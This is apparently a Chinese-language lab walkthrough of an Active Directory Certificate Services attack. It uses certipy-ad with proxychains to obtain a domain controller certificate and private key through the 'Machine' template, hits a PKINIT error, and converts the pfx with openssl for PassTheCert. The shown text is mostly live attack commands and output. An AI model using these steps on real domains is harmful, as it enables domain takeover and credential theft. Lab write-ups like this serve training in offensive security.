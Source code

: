 可以得知 CA 名 `xiaorang-XR-CA-CA`

申请证书模板

:::warning

这里可能会遇到 `Got error: The NETBIOS connection with the remote host timed out.` 错误

多尝试执行几次就好

:::

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad req -u 'randark2$@xiaorang.lab' -p 'admin123###2' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with DNS Host Name 'XR-DC01.xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'xr-dc01.pfx'
```

然后尝试申请 TGT 票据

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: xr-dc01$@xiaorang.lab
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

这里的报错，是因为缺少证书，参考 [Pass The Certificate when PKINIT Padata Type is NOSUPP | WHOAMI](https://whoamianony.top/posts/pass-the-certificate-when-pkinit-is-nosupp/)

使用 [AlmondOffSec/PassTheCert: Proof-of-Concept tool to authenticate to an LDAP/S server with a certificate through Schannel](https://github.com/AlmondOffSec/PassTheCert)

首先，先转换证书（证书密码留空即可）

```shell
┌──(randark ㉿ kali)-[~]
└─$ openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
Enter Import Password:

┌──(randark ㉿ kali)-[~]
└─$ openssl rsa -in test.pem -out test.key
writing RSA key

┌──(randark ㉿ kali)-[~]
└─$ openssl x509 -in test.pem -out test.crt
```
